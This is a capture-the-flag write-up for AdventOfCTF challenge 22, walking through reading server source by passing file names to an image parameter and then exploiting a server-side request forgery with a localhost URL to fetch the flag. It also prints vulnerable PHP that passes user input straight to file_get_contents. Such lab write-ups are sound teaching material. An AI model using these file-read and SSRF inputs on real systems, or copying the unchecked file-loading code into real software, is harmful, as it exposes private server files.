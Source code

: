 +++
author = "Maik de Kruif"
title = "Dubstep"
subtitle = "Challenge 22 - AdventOfCTF"
date = 2021-03-04T01:24:34+01:00
description = "A writeup for challenge 22 of AdventOfCTF."
cover = "img/writeups/adventofctf/2020/6c0810c1568645bcf58da67a1db6e3e7.png"
tags = [
    "AdventOfCTF",
    "challenge",
    "ctf",
    "hacking",
    "writeup",
    "web",
    "php",
    "ssrf",
]
categories = [
    "ctf",
    "writeups",
    "hacking",
]
aliases = [
    "challenge_22"
]
+++

- Points: 2200

## Description

We have a new service! You can view santa's favorite pictues. Currently there is only one, but it is a very good one! You can get the flag through flag.php.

Visit <https://22.adventofctf.com> to start the challenge.

## Recon

Upon opening the challenge website, we're greeted with a link with the text "Is this santa?". If we click on it, it redirects to `/index.php?image=cat.jpg`.

This page shows us a nice picture of a cat.

## Finding the vulnerability

When looking at this, you might think of Local File Inclusion (LFI). This makes sense as it is one of the most common vulnerability in opening files.

We can try to use it to open `flag.php`. To try this, let's replace `cat.jpg` with `flag.php` in the URL.

When opening the page, we will see a broken image, this is expected as the file it not an image. If we open the source we find the following:

```html
<img
  src="data:image/jpeg;base64,PD9waHAKCmluY2x1ZGUoInNlY3JldC5waHAiKTsKCmlmIChzdHJwb3MoY2hlY2tfc2VjcmV0KCksICJhbGxvdyIpICE9PSBmYWxzZSkgewogICBlY2hvIGdldF9mbGFnKCk7IAp9Cgo/Pgo="
  width="100%"
/>
```

Here we see some `base64` encoded data, let's decode it using the following command:

```bash
echo -n "PD9waHAKCmluY2x1ZGUoInNlY3JldC5waHAiKTsKCmlmIChzdHJwb3MoY2hlY2tfc2VjcmV0KCksICJhbGxvdyIpICE9PSBmYWxzZSkgewogICBlY2hvIGdldF9mbGFnKCk7IAp9Cgo/Pgo=" | base64 -d
```

```php
<?php

include("secret.php");

if (strpos(check_secret(), "allow") !== false) {
   echo get_flag();
}

?>
```

If we look at this code, we see that if `check_secret()` contains `"allow"`, it will execute the `get_flag()` function (which will probably give us the flag).

The functions are not defined in this file so they probably come from `secret.php`. Let's try to read that file.

Alas, we get the cat picture again. That's weird. There might be a filter on the input. Let's verify that by reading the `index.php` file.

Using the same decoding method, we get the following result:

{{< code language="php" title="index.php" >}}

```html
<!DOCTYPE html>
<html class="no-js" lang="">
  <head>
    <meta charset="utf-8" />
    <meta http-equiv="x-ua-compatible" content="ie=edge" />
    <title>Advent of CTF 22</title>
    <meta name="description" content="" />
    <meta name="viewport" content="width=device-width, initial-scale=1" />

    <link rel="stylesheet" href="style.css" type="text/css" media="screen" />
    <link
      rel="stylesheet"
      href="https://use.fontawesome.com/releases/v5.6.3/css/all.css"
      integrity="sha384-UHRtZLI+pbxtHCWp1t77Bi1L4ZtiqrqD80Kn4Z8NTSRyMA2Fd33n5dQ8lWUE00s/"
      crossorigin="anonymous"
    />
    <style>
      .row-margin-05 {
        margin-top: 0.5em;
      }
      .row-margin-10 {
        margin-top: 1em;
      }
      .row-margin-20 {
        margin-top: 2em;
      }
      .row-margin-30 {
        margin-top: 3em;
      }
    </style>
  </head>
  <body>
    <div class="jumbotron bg-transparent mb-0 radius-0">
      <div class="container fluid">
        <div class="row">
          <div class="col-xl-6 mx-auto">
            <h1 class="display-2">
              Advent of CTF <span class="vim-caret">22</span>
            </h1>
            <div class="lead mb-3 text-mono text-warning">
              Your daily dose of CTF for December
            </div>

            <div class="row">
              <div class="col-xl-12 mx-auto">
                <div class="card">
                  <div class="card-header text-center">
                    <h2>The big reveal</h2>
                  </div>
                  <div class="card-body">
                    <?php
                    if (!isset($_GET["image"])) {
                    ?>
                    <a href="/index.php?image=cat.jpg">Is this santa?</a>
                    <?php
                    } else {
                        $path = $_GET["image"];
                        if (strpos($path,"secret") !== false) {
                            $path="cat.jpg";
                        }
                        $image = file_get_contents($path);
                        echo '<img src="data:image/jpeg;base64,'.base64_encode($image).'" width="100%"/>';
                    } ?>
                  </div>
                  <div class="card-footer text-center">Almost there</div>
                </div>
              </div>
            </div>
            <div class="row row-margin-30">
              <div class="card mb-3 bg-dark text-white">
                <div class="card-body">
                  <div class="row">
                    <div class="col-md-2">
                      <img src="/logo.png" />
                    </div>
                    <div class="col-md-9 offset-md-1 align-middle">
                      <p class="text-center">
                        <span class="align-middle">
                          The Advent of CTF is brought to you by
                          <a href="http://www.novi.nl">NOVI Hogeschool</a>. It
                          is built by
                          <a
                            href="https://twitter.com/credmp/"
                            class="icoTwitter"
                            title="Twitter"
                            ><i class="fab fa-twitter"></i> @credmp</a
                          >. If you are looking for a Dutch Cyber Security
                          Bachelor degree or bootcamp,
                          <a href="https://www.novi.nl">check us out</a>.
                        </span>
                      </p>
                    </div>
                  </div>
                </div>
              </div>
            </div>
          </div>
        </div>
      </div>
    </div>
  </body>
</html>
```

{{< /code >}}

Just the PHP part:

```html
<?php
if (!isset($_GET["image"])) {
?>
<a href="/index.php?image=cat.jpg">Is this santa?</a>
<?php
} else {
    $path = $_GET["image"];
    if (strpos($path,"secret") !== false) {
        $path="cat.jpg";
    }
    $image = file_get_contents($path);
    echo '<img src="data:image/jpeg;base64,'.base64_encode($image).'" width="100%"/>';
} ?>
```

Here we see that we cannot get any file containing "secret". This means we have to find another way to get the flag.

We see that this code is using the `file_get_contents()` function to open file. Let's have a look at the [PHP documentation for it](https://www.php.net/manual/en/function.file-get-contents.php).

If we read a bit we find the following example usage:

```php
<?php
$homepage = file_get_contents('http://www.example.com/');
echo $homepage;
?>
```

This means it can also open URLs and, since we control the input to the function, we have a Server-Side Request Forgery (SSRF) vulnerability. Let's try to use that to open the flag file.

To test this, we can use the following input; `image=http://localhost/flag.php`.

_Note: We can not use the `secret.php` file as any input containing "secret" is blocked._

We, again, got some base64 encoded data back, so let's decode it:

```bash
echo -n "Tk9WSXthc2tpbmdfZm9yX2FfZnJpZW5kfQ==" | base64 -d
```

## Solution

We got the flag! It is `NOVI{asking_for_a_friend}`.
